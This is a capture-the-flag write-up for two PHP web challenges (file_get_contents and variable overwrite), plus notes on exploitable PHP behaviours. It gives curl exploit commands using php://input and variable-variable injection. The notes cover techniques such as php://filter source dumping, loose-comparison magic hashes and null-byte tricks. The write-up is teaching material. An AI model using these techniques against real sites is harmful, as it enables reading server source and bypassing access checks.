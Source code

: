 
## [file_get_contents](http://chinalover.sinaapp.com/web23/)

```html
# Source
<!--$file = $_GET['file'];
if(@file_get_contents($file) == "meizijiu"){
    echo $nctf;
}-->
```
php scheme `input` 从 `_POST` 读取内容：
```shell
curl http://chinalover.sinaapp.com/web23/?file=php://input -X POST -d 'meizijiu'
```

## [变量覆盖](http://chinalover.sinaapp.com/web24/)

响应里面的注释有提示
```html
<!--foreach($_GET as $key => $value){  
        $$key = $value;  
}  
if($name == "meizijiu233"){
    echo $flag;
}-->
```
PHP的可变变量：
```shell
curl http://chinalover.sinaapp.com/web24/?name=meizijiu233
```


# Notes

- php
  - `strcmp` reports a warning and returns nothing when given an array
  - `extract` imports variables into and may corrupts the current symbol table from an array 
  - `ereg` considers null byte as the end of string, 
    - while null bytes don't actually terminate a string.
  - `preg_replace` and PCRE
    - [delimiters](https://www.php.net/manual/en/regexp.reference.delimiters.php)
    - `e` [modifiers](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)
  - loosely equal comparison `==`
    - type cast
      - hex string to integer
    - float number format strings: [Why md5('240610708') is equal to md5('QNKCDZO')?](https://stackoverflow.com/questions/22140204)
  - [I/O streams](https://www.php.net/manual/en/wrappers.php.php) along with file functions and **include** statement
    - url taking as argument filename or php's
    - `php://input` reads from `$_POST`
    - `php://filter`
      - `read`: filter
        - `read=convert.base64-encode` can dump current page without recursion
      - `resource`: file
  - [variable variable](https://www.php.net/manual/en/language.variables.variable.php) allows user to have variable variable names. 
  - [`mysql_fetch_array`](https://www.php.net/manual/en/function.mysql-fetch-array.php): Fetch **a** result row 
  - [`get_magic_quotes_gpc`](https://www.php.net/manual/en/function.get-magic-quotes-gpc.php)
  - [`htmlentities`](https://www.php.net/manual/en/function.htmlentities.php) converts all applicable characters into HTML entities.
    - not always safe enough to protect from SQLi